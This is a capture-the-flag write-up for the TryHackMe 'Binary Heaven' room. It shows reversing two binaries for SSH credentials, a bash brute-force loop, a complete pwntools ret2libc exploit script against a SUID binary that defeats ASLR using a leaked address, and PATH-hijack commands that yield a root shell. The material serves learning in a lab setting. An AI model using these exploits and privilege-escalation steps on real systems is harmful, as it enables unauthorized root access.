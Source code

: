 # Binary Heaven

https://tryhackme.com/room/binaryheaven

A binex heavy room - which normally I would avoid, as its an area I have little experience in (and all of that painful). But, being a new room with no writeups and needing to keep my streak up, I dived in :) Learned a bit, so thats awesome.

A scan of the box revealed just a single port, 22. The room started with giving you two binaries to reverse in order to get the SSH credentials.

## Part 1: angel_A and angel_B

These two binaries, A and B, contained the ssh username and password respectively. They were in C and Go, i.e. angel_A was 17kb and angel_B was ~2mb :D

### angel_A

Opening this in ghidra showed code similar to the following:

```c
  printf("\x1b[36m\nSay my username >> \x1b[0m");
  fgets((char *)local_15,9,stdin);
  local_c = 0;
  while( true ) {
    if (7 < local_c) {
      puts("\x1b[32m\nCorrect! That is my name!\x1b[0m");
      return 0;
    }
    if (*(int *)(username + (long)local_c * 4) != (char)(local_15[local_c] ^ 4) + 8) break;
    local_c = local_c + 1;
  }
```

Following that username pointer back showed a block of bytes a bit like this:

```
           00104060 6b              undefined16Bh                     [0]                               XREF[3]:     Entry Point(*), main:00101202(*), 
                                                                                                                     main:00101209(R)  
           00104061 00              undefined100h                     [1]
           00104062 00              undefined100h                     [2]
           00104063 00              undefined100h                     [3]
           00104064 79              undefined179h                     [4]
           00104065 00              undefined100h                     [5]
           00104066 00              undefined100h                     [6]
           00104067 00              undefined100h                     [7]
           00104068 6d              undefined16Dh                     [8]
           00104069 00              undefined100h                     [9]
           0010406a 00              undefined100h                     [10]
           0010406b 00              undefined100h                     [11]
           0010406c 7e              undefined17Eh                     [12]
           0010406d 00              undefined100h                     [13]
           0010406e 00              undefined100h                     [14]
           ... etc
```

If you look closely, you can see every fourth byte looks a bit like its in the ascii range, which kind of matches with this code from the check: `username + (long)local_c * 4`, e.g. take the index we are up to, multiply it by four, and check against that byte. Furthermore, there was a `^ 4` permutation too. I took the bytes from the above block, put them in cyberchef, then messed with XORing until I got the username (it was obvious when the string was unmangled enough to resemble and english word).

### angel_B

This challenge was a lot harder. Being Go, opening it in ghidra showed a huge mess, and even though I found where the input is checked, it used some sort of memory check rather than string compare to do it. Furthermore, in a go binary, strings are not stored just as null terminated byte sets: instead they're all in one huge blog which, since a given go binary includes a lot of its standard library, has a huge mass of other strings in there too.

I tried a few things, including straight brute forcing the password using bash like `for i in $(cat all-english-words.txt); do (echo $i | ./angel_B && echo $i) >> result.txt; done;`, which took hours but achieved nothing. I also tried some custom go ghidra scripts from here: https://cujo.com/reverse-engineering-go-binaries-with-ghidra/, and I played around with [Delve](https://github.com/go-delve/delve), a GDB-like program for go debugging, which was fun but ultimately not useful.

In the end, the solution was simple: I reopened Ghidra, and re-examined the binary but on the analysis options screen, selected ALL the options (even the red experimental ones). For whatever reason, while making the decompiled code even more incomprehensible, this fixed the referencing of the memory address being checked at:

```c
  if ((puVar2 == (undefined *)0xb) &&
     (puVar14 = puVar2,
     runtime.memequal(CONCAT71(uVar8,uVar7),CONCAT71(uVar6,uVar5),(int)extraout_RDX,0xb,uVar9,uVar11
                      ,*puVar13,&DAT_004cad0b,0xb,cVar15), uVar4 = extraout_RDX_01, cVar15 != '\0'))
  {
```

that `DAT_004cad0b` above, when followed, led to the password in a sequence of plain ascii bytes. Good job Ghidra, got there in the end :)

## Part 2: Pwning `pwn_me`

On the box was the user flag, and a suid binary running as the user `binexgod`, called `pwn_me`. When run, this would tell you the `system` location then wait for input. The system location changed each time - ASLR (address space layout randomisation) eas enabled on the box.

This stumped me for a bit - as I said, I am not experienced at binex. I worked out the buffer size was roughly 28 characters and tried, like a blind caveman, shoving the system address into the overwrite position without luck. I went off to do some research, specifically around 'system' and binex.

This led me to ret2system, or more generally **ret2libc**, and I found a tutorial that proved excellent: https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc. This was exactly what I needed - in fact, pwn tools was already on the box! Except... ASLR was already enabled? Meaning that I couldn't just hardcode the location of libc then add offsets...

In the end, perhaps more complicated than I needed to be, I worked out the difference in offset between system and '/bin/sh' in libc, then read the location of system from the program's out and added the offset as needed. The difference between the two was different on my test machine compared to the box, so after proving the method I had to tweak it before final exploitation. To calculate the differences I used `strings -a -t x /lib32/libc.so.6 | grep /bin/sh` to get the strings location, subbed from that `readelf -s /lib32/libc.so.6 | grep system` using a hex calculator, then added that into the script to add to the read system value. The final script (with my host machine's offset, not the targets) was:

```python
from pwn import *

p = process('./pwn_me')

p.recvline()
line2 = p.recvline()
system = int(line2.split(b': ')[1].split(b'\n')[0], 16)
binsh = system + 0x14733c

payload  = b'A' * 32
payload += p32(system)
payload += p32(0x0)
payload += p32(binsh)

p.clean()
p.sendline(payload)
p.interactive()
```

This worked and I had privesc and got binexgod's flag :)

## Part 3: Privesc to Root

The final privesc was a bit of a throwaway: there was another suid binary called `vuln`, which had the source file besides it:

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo Get out of heaven lol");
}
```

There was a script which printed an animated nyancat in the terminal (by this point I had added my public key to binexgod's ssh folder so I could just ssh in, getting a nice terminal) but I am pretty sure that was just there as a red herring. The above looked like a plain path exploit, and it was:

```bash
echo /bin/sh -p > echo
chmod +x ./echo
export PATH=/home/binexgod:$PATH
./vuln
```

And I had a root shell and the final flag :)
